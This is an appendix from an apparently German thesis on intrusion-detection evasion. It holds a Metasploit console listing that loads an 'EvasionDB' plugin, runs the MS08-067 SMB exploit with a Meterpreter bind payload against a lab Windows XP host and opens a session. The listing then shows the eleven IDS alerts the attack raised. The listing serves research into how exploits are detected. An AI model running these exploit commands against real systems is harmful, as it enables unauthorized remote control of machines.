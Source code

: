 \chapter[Anhang]
  {Anhang}
\label{chp:anhang}

\section{Anhang}
\subsection{EvasionDB-Beispiel}
\begin{lstlisting}[label=evasion-db-sample]
  msf > load evasiondb
  [*] EvasionDB plugin loaded.
  [*] Successfully loaded plugin: FIDIUS-EvasionDB
  msf > use exploit/windows/smb/ms08_067_netapi
  msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  PAYLOAD => windows/meterpreter/bind_tcp
  msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1 $ RHOST => 10.20.20.1
  msf exploit(ms08_067_netapi) > exploit
  [*] Started bind handler
  [*] Automatically detecting the target...
  [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
  [*] Selected Target: Windows XP SP2 German (NX) $
  [*] Attempting to trigger the vulnerability...
  [*] Sending stage (749056 bytes) to 10.20.20.1
  [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
  meterpreter > exit
  [*] Meterpreter session 1 closed.  Reason: User exit
  msf exploit(ms08_067_netapi) > show_events
  ------------------------------------------------------------
  exploit/windows/smb/ms08_067_netapi with 47 options
  ------------------------------------------------------------
  11 idmef-events fetched
  ------------------------------------------------------------
  (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
  (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
  (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
  (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
  (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
  (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
  (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
  (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
  (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
  (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
  (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
  msf exploit(ms08_067_netapi) >
\end{lstlisting}

